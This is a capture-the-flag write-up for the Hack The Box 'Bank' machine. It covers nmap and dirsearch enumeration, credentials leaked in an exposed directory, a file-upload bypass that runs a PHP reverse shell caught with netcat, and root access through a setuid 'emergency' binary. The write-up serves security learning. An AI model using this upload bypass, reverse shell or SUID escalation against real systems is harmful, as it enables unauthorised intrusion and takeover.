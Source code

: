 +++
name = "Bank"
published_date = 2020-05-30T18:30:00Z
tags = []

+++
### Initial enumeration

```bash
# Nmap 7.80 scan initiated Sat Sep 28 21:42:44 2019 as: nmap -sV -sC -O -A -oN O-Detailed -p 80,53,22,U:53 10.10.10.29
Nmap scan report for 10.10.10.29
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   220.12 ms 10.10.14.1
2   229.82 ms 10.10.10.29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 28 21:43:08 2019 -- 1 IP address (1 host up) scanned in 24.59 seconds
```

Going to `http://10.10.10.29` got me the default Apache server page, but as we see there's a `DNS` server running on `port 53` so I added an entry for `bank.htb` in my hosts file and when visiting the address `http://bank.htb` we get a login page. No usual login credentials seemed to work, so I ran `dirsearch` on the URL and got following directories.

```bash
$ sudo dirsearch -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php,txt -f -r -t 200 --simple-report=dirsearch.output
http://bank.htb:80/.php
http://bank.htb:80/index.php
http://bank.htb:80/support.php
http://bank.htb:80/icons/
http://bank.htb:80/login.php
http://bank.htb:80/uploads/
http://bank.htb:80/assets/
http://bank.htb:80/logout.php
http://bank.htb:80/inc/
http://bank.htb:80/server-status/
## --------------------------------- ##
http://bank.htb:80/balance-transfer/
## --------------------------------- ##
http://bank.htb:80/icons/.php
http://bank.htb:80/icons/small/
```

The URL `/balance-transfer/` stood out to me, so I went ahead and explored the directory and found that there are several hundred files and all are encrypted however there's one file whose size is lesser than all the other files.

![](../../../.gitbook/assets/image%20%2850%29.png)

The contents of the file revealed credentials for an account on the system.

```bash
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

So we used the credentials to get to the dashboard.

![Dashboard](../../../.gitbook/assets/image%20%2844%29.png)

There seemed to be another page called `support.php` which seemed interesting as it had a file upload capability \(These are always juicy.\).

![Support](../../../.gitbook/assets/image%20%2831%29.png)

Looking at the source revealed that we can upload file with extension `htb` and have it run as `PHP` code, which as sweet.

![](../../../.gitbook/assets/image%20%2858%29.png)

So I used the `/usr/share/webshells/php/php-reverse-shell.php` from the `kali` repository and uploaded and from the `My Tickets` table opened up the file and caught the reverse shell with `netcat`.

### User own

```bash
$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.29] 44018
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 20:37:39 up  1:37,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ cd chris
$ cat user.txt
37c97***
```

### Root own

I ran `linux smart enum` on the system and found some interesting things about `SUID` binaries.

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

```bash
[*] fst010 Binaries with setuid bit........................................ yes!
---
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
---
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/var/htb/bin/emergency
---
```

So I went ahead and ran the uncommon binary and found that it dropped us into the root shell.

```bash
$ cd /var/htb/bin/                                                                                                                                     
$ ls -la          
total 120         
drwxr-xr-x 2 root root   4096 Jun 14  2017 .                                
drwxr-xr-x 3 root root   4096 Jun 14  2017 ..                               
-rwsr-xr-x 1 root root 112204 Jun 14  2017 emergency                        
$ ./emergency     
id                
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)  
cat /root/root.txt
d5be5***
```

### Learning outcome

Directory scans play a very important role in success with web-servers.